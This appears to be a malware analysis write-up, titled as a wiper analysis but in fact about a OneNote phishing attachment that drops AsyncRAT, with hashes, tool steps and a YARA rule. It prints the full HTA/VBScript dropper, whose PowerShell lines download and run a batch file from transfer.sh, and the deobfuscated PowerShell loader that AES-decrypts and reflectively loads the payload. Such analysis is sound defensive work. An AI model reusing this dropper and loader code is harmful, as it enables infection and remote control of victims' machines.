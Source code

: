# BiBI-Wiper-Analysis

Security Researchers discovered that Threat actors now using OneNote attachments in phishing emails that infect victims with remote access malware which can be used to install further malware, steal passwords, or even cryptocurrency wallets.

## Malware Sample

> **MD5:** e26bba0304f14ef96beb60376791d32c

> **SHA256:** 40417e937cd244b2f928150cae6fa0eff5551fdb401ea072f6ecdda67a747e17

## Basic Static Analysis

- Attackers sending OneNote file as an attachment using email and using simple trick to hide suspicious script. 

- The suspicious VBS macro linked to the "Click to view document" PNG picture is just behind this picture.  

- Once User clicked on view document  VBS macro will execute.

![image](https://user-images.githubusercontent.com/43460691/216254324-951b4861-e580-4d77-901c-fcd8cbf620c5.png)

## Dump OneNote File content 

- There is an awesome tool created by Didier Stevens to dump content from the OneNote file. Check the below output. OneNote file containing two PNG and one HTA file.

- Steam number 2 holds the HTA script (starting with "<!").

> ***`REMnux: python3 onedump.py "file name"`***

![image](https://user-images.githubusercontent.com/43460691/216254734-737826fe-afc8-4f3e-a4e6-6f2808bae465.png)

- Below are the dumped files, Where "Click to view document" image used to trick user and execute script.

![image](https://user-images.githubusercontent.com/43460691/216254817-9180ca56-1b3f-42eb-8ad1-903b4f1e38c8.png)


- If you look into below HTA file  we can see first ExecuteCmdAsync invoke WebRequest -Uri and downloading **notes_to_do_list.one** file and writing on disk as invoice.one which is simple note and not malicious.

- The second  ExecuteCmdAsync  downloading sky.bat file and writing on disk in tmp folder as system32.bat and execute.

![image](https://user-images.githubusercontent.com/43460691/216255016-54797b05-27ba-493d-8e14-b21d702ee5a7.png)

## Strings Check

- HTA file is not obfuscated and we can see HTA file in Strings output as well.

> ***`REMnux: strings "file name"`***

```
remnux@remnux:~/Downloads$ strings Invoice.one 
<html>
<head>
<HTA:APPLICATION icon="#" WINDOWSTATE="normal" SHOWINTASKBAR="no" SYSMENU="no"  CAPTION="no" BORDER="none" SCROLL="no" />
<script type="text/vbscript">
' Exec process using WMI
Function WmiExec(cmdLine ) 
    Dim objConfig 
    Dim objProcess 
    Set objWMIService = GetObject("winmgmts:\\.\root\cimv2")
    Set objStartup = objWMIService.Get("Win32_ProcessStartup")
    Set objConfig = objStartup.SpawnInstance_
    objConfig.ShowWindow = 0
    Set objProcess = GetObject("winmgmts:\\.\root\cimv2:Win32_Process")
    WmiExec = dukpatek(objProcess, objConfig, cmdLine)
End Function
Private Function dukpatek(myObjP , myObjC , myCmdL ) 
    Dim procId 
    dukpatek = myObjP.Create(myCmdL, Null, myObjC, procId)
End Function
Sub AutoOpen()
    ExecuteCmdAsync "cmd /c powershell Invoke-WebRequest -Uri https://www.onenotegem.com/uploads/soft/one-templates/notes_to_do_list.one -OutFile $env:tmp\invoice.one; Start-Process -Filepath $env:tmp\invoice.one"
	    ExecuteCmdAsync "cmd /c powershell Invoke-WebRequest -Uri https://transfer.sh/get/5dLEvB/sky.bat -OutFile $env:tmp\system32.bat; Start-Process -Filepath $env:tmp\system32.bat"
End Sub
' Exec process using WScript.Shell (asynchronous)
Sub WscriptExec(cmdLine )
    CreateObject("WScript.Shell").Run cmdLine, 0
End Sub
Sub ExecuteCmdAsync(targetPath )
    On Error Resume Next
    Err.Clear
    wimResult = WmiExec(targetPath)
    If Err.Number <> 0 Or wimResult <> 0 Then
        Err.Clear
        WscriptExec targetPath
    End If
    On Error Goto 0
End Sub
window.resizeTo 0,0
AutoOpen
remnux@remnux:~/Downloads$ 
```

## Second Stage Payload 

- System32.bat file is obfuscated, Lot of environment variables are created and concatenated to build commands. If it's difficult to read, it's easy to deobfuscate. 

- Just add a "echo" at the beginning of all lines at the bottom of the file and execute it or you can use Procmon tool to PowerShell executed command.

> **SHA256:** d329a265d4005b2cb8902d6148ff5e4477f2203bc2e476e51e5895f9be99c53e

![image](https://user-images.githubusercontent.com/43460691/216255585-757086c3-90c7-40c2-88ed-97b47c3df79d.png)

- Capture the process ecexution using Procmon, If you open the process start operation you can see the deobfuscated command.

![image](https://user-images.githubusercontent.com/43460691/216359119-9be8ed37-8a16-4924-8dcc-ae34e2c52d8a.png)


- This script is a dropper. You can see base64 encoded payload is located in the file and read by PowerShell. Payload is identified by lines starting with **":: ".** 

```
"system32.bat.exe" -noprofile -windowstyle hidden -ep bypass -command $eIfqq = [System.IO.File]::('txeTllAdaeR'[-1..-11] -join '')('C:\Users\admin\AppData\Local\Temp\system32.bat').Split([Environment]::NewLine)
foreach ($YiLGW in $eIfqq) 
{ 
  if ($YiLGW.StartsWith(':: ')) 
     { 
	    $VuGcO = $YiLGW.Substring(3)
        break
     }
}
$uZOcm = [System.Convert]::('gnirtS46esaBmorF'[-1..-16] -join '')($VuGcO)
$BacUA = New-Object System.Security.Cryptography.AesManaged
$BacUA.Mode = [System.Security.Cryptography.CipherMode]::CBC
$BacUA.Padding = [System.Security.Cryptography.PaddingMode]::PKCS7

$BacUA.Key = [System.Convert]::('gnirtS46esaBmorF'[-1..-16] -join '')('CeRsc6tTBkD+M0zxU7egGVErAsa/NtkVIHXeHDUiW20=')
$BacUA.IV = [System.Convert]::('gnirtS46esaBmorF'[-1..-16] -join '')('2hn/J717js1MwdbbqMn7Lw==')

$Nlgap = $BacUA.CreateDecryptor()
$uZOcm = $Nlgap.TransformFinalBlock($uZOcm, 0, $uZOcm.Length)
$Nlgap.Dispose()
$BacUA.Dispose()
$mNKMr = New-Object System.IO.MemoryStream(, $uZOcm)
$bTMLk = New-Object System.IO.MemoryStream
$NVPbn = New-Object System.IO.Compression.GZipStream($mNKMr, [IO.Compression.CompressionMode]::Decompress)
$NVPbn.CopyTo($bTMLk)
$NVPbn.Dispose()
$mNKMr.Dispose()
$bTMLk.Dispose()
$uZOcm = $bTMLk.ToArray()
$gDBNO = [System.Reflection.Assembly]::('daoL'[-1..-4] -join '')($uZOcm)
$PtfdQ = $gDBNO.EntryPoint
$PtfdQ.Invoke($null, (, [string[]] ('')))
![image](https://user-images.githubusercontent.com/43460691/216255789-c6e19f63-9991-4a34-b805-3de608cc2353.png)
```

## Payload Extraction 

- The payload is AES encrypted, you can see AES keys in deobfuscated script. We will use these keys to decrypt payload.

![image](https://user-images.githubusercontent.com/43460691/216255929-d279b878-b913-498a-a7e7-cfdaed87335a.png)


![image](https://user-images.githubusercontent.com/43460691/216255962-7725f621-9a49-4b2e-94eb-8fb784d93142.png)

- The decrypted PE file is an ASyncRAT. Check the below file hash.

> **SHA256:** f8b823dc5519d25ef2599725c25306171a8496069b1ba56cb854323ae98d10d1

![image](https://user-images.githubusercontent.com/43460691/216351747-ae3a9ad8-3518-462d-887b-86fe524c28fa.png)


## YARA Rule

```
rule malicious_onenote {
    meta:
        description = "Detects malicious onenote files"

    strings:
        $hta = "hta:application" nocase
        $hta_script = "type=\"text/vbscript\""
        $hta_open = "autoopen" nocase

    condition:
        uint32be(0x0) == 0xE4525C7B
        and 2 of them
}
```

## References :

- 
